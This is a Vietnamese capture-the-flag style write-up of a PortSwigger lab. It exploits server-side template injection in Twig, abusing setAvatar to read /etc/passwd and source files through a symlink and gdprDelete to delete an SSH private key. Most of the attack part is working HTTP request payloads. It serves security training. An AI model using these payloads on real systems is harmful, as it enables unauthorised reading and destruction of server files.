







# Write-up: Server-side template injection with a custom exploit

### Tổng quan
Khai thác lỗ hổng **Server-Side Template Injection (SSTI)** trong ứng dụng web sử dụng template engine Twig, nơi đầu vào người dùng trong trường `blog-post-author-display` không được lọc, cho phép thực thi mã tùy ý. Bằng cách khai thác phương thức `setAvatar` để đọc file hệ thống và phương thức `gdprDelete` để xóa file, kẻ tấn công đọc được source code `User.php` và xóa file `/home/carlos/.ssh/id_rsa`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **SSTI** trong trường `blog-post-author-display`, sử dụng phương thức `setAvatar` để đọc file hệ thống, phân tích `User.php` để tìm phương thức `gdprDelete`, và xóa file `/home/carlos/.ssh/id_rsa` để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và truy cập chức năng hiển thị tên tác giả bài post.  
- Trong Burp Proxy, bắt request khi cập nhật trường `blog-post-author-display` và thử payload SSTI:  
  ```
  POST /my-account HTTP/2
  Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
  Cookie: session=...
  Content-Type: application/x-www-form-urlencoded

  blog-post-author-display={{7*7}}
  ```  
- Kết quả: Server trả về lỗi, xác nhận sử dụng template engine Twig:  
    

- Thử tải lên file avatar không phải ảnh (ví dụ: file text) để kiểm tra xử lý:  
    - Kết quả: Server báo lỗi, tiết lộ phương thức `setAvatar` của class `User` nhận hai tham số (`filename`, `mimetype`):  
    

2. **Khai thác SSTI để đọc file hệ thống**  
- Sử dụng payload SSTI để gọi phương thức `setAvatar` và đọc file `/etc/passwd`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/etc/passwd","image/png")
    ```  
    - Comment vào một post để kích hoạt payload, sau đó truy cập:  
    ```
    GET /avatar?avatar=wiener HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    ```  
- Kết quả: Nội dung file `/etc/passwd` được trả về, xác nhận payload hiệu quả:  
    
    

- Đọc source code file `avatar_upload.php`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/home/carlos/avatar_upload.php","image/png")
    ```   
     

- Comment vào post và truy cập `/avatar?avatar=wiener`.  
     
- Kết quả: Đọc được source code `avatar_upload.php`, tiết lộ tham chiếu đến file `/home/carlos/User.php`:  
      
   

- Đọc file `User.php`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/home/carlos/User.php","image/png")
    ```  
- Comment vào post và truy cập `/avatar?avatar=wiener`.  
- Kết quả: Nội dung file `User.php`:  
    ```php
    <?php

    class User {
        public $username;
        public $name;
        public $first_name;
        public $nickname;
        public $user_dir;

        public function __construct($username, $name, $first_name, $nickname) {
            $this->username = $username;
            $this->name = $name;
            $this->first_name = $first_name;
            $this->nickname = $nickname;
            $this->user_dir = "users/" . $this->username;
            $this->avatarLink = $this->user_dir . "/avatar";

            if (!file_exists($this->user_dir)) {
                if (!mkdir($this->user_dir, 0755, true))
                {
                    throw new Exception("Could not mkdir users/" . $this->username);
                }
            }
        }

        public function setAvatar($filename, $mimetype) {
            if (strpos($mimetype, "image/") !== 0) {
                throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
            }

            if (is_link($this->avatarLink)) {
                $this->rm($this->avatarLink);
            }

            if (!symlink($filename, $this->avatarLink)) {
                throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
            }
        }

        public function delete() {
            $file = $this->user_dir . "/disabled";
            if (file_put_contents($file, "") === false) {
                throw new Exception("Could not write to " . $file);
            }
        }

        public function gdprDelete() {
            $this->rm(readlink($this->avatarLink));
            $this->rm($this->avatarLink);
            $this->delete();
        }

        private function rm($filename) {
            if (!unlink($filename)) {
                throw new Exception("Could not delete " . $filename);
            }
        }
    }

    ?>
    ```  
- **Phân tích**: Phương thức `gdprDelete` xóa file được liên kết bởi `avatarLink` và gọi `delete` để tạo file `disabled`. Có thể khai thác để xóa file tùy ý:  
      

3. **Khai thác để xóa file `/home/carlos/.ssh/id_rsa`**  
- Đặt `avatarLink` trỏ đến `/home/carlos/.ssh/id_rsa`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.setAvatar("/home/carlos/.ssh/id_rsa","image/png")
    ```  
- Comment vào post và truy cập `/avatar?avatar=wiener` để xác nhận symlink được tạo:  
- Gọi phương thức `gdprDelete` để xóa file `/home/carlos/.ssh/id_rsa`:  
    ```
    POST /my-account HTTP/2
    Host: 0ai9016q17rs8901m0no156700pq00nm.web-security-academy.net
    Cookie: session=...
    Content-Type: application/x-www-form-urlencoded

    blog-post-author-display=user.gdprDelete()
    ```  
- Comment vào post để kích hoạt payload.  
- Kết quả: File `/home/carlos/.ssh/id_rsa` bị xóa, lab xác nhận hoàn thành:  
      

- **Ý tưởng payload**:  
  - Sử dụng SSTI để gọi `setAvatar` và tạo symlink đến file nhạy cảm, sau đó gọi `gdprDelete` để xóa file `/home/carlos/.ssh/id_rsa`.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng **Server-Side Template Injection** trong Twig, sử dụng các phương thức như `setAvatar` và `gdprDelete` để đọc và xóa file hệ thống.  
- Nhận thức tầm quan trọng của việc lọc và kiểm tra đầu vào người dùng trong template engine, áp dụng nguyên tắc least privilege cho các phương thức nhạy cảm, và vô hiệu hóa thực thi mã tùy ý trong môi trường production.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Server-Side Template Injection** với Twig, nhấn mạnh tầm quan trọng của việc lọc đầu vào và bảo vệ các phương thức nhạy cảm để ngăn chặn đọc/xóa file trái phép. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*